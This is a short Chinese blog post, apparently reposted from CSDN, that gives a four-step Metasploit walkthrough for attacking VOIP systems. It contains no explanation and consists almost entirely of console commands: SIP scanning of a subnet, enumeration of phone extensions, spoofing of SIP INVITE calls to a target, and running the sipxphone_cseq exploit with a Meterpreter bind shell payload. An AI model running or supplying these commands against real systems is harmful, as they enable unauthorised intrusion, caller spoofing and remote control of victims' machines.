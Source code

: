```yaml
---
title: 渗透之——利用Metasploit渗透VOIP
categories: 精通渗透系列
tags: 渗透 Metasploit VOIP
---
```

转载请注明出处：https://blog.csdn.net/l1028386804/article/details/86536861

### 1.对VOIP服务踩点

    
    
    use auxiliary/scanner/sip/options
    show options
    set RHOSTS 192.168.109.0/24
    run

### 2.扫描VOIP服务

    
    
    use auxiliary/scanner/sip/enumerator
    show options
    set MINEXT 3000
    set MAXEXT 3005
    set PADLEN 4
    set RHOSTS 192.168.109.0/24
    run

### 3\. 欺骗VOIP电话

    
    
    use auxiliary/voip/sip_invite_spoof
    set RHOSTS 192.168.109.141
    set EXTENSION 4444
    show options
    run

### 4.渗透VOIP

    
    
    use exploit/windows/sip/sipxphone_cseq
    set RHOST 192.168.109.141
    set payload windows/meterpreter/bind_tcp
    set LHOST 192.168.109.137
    show options
    exploit

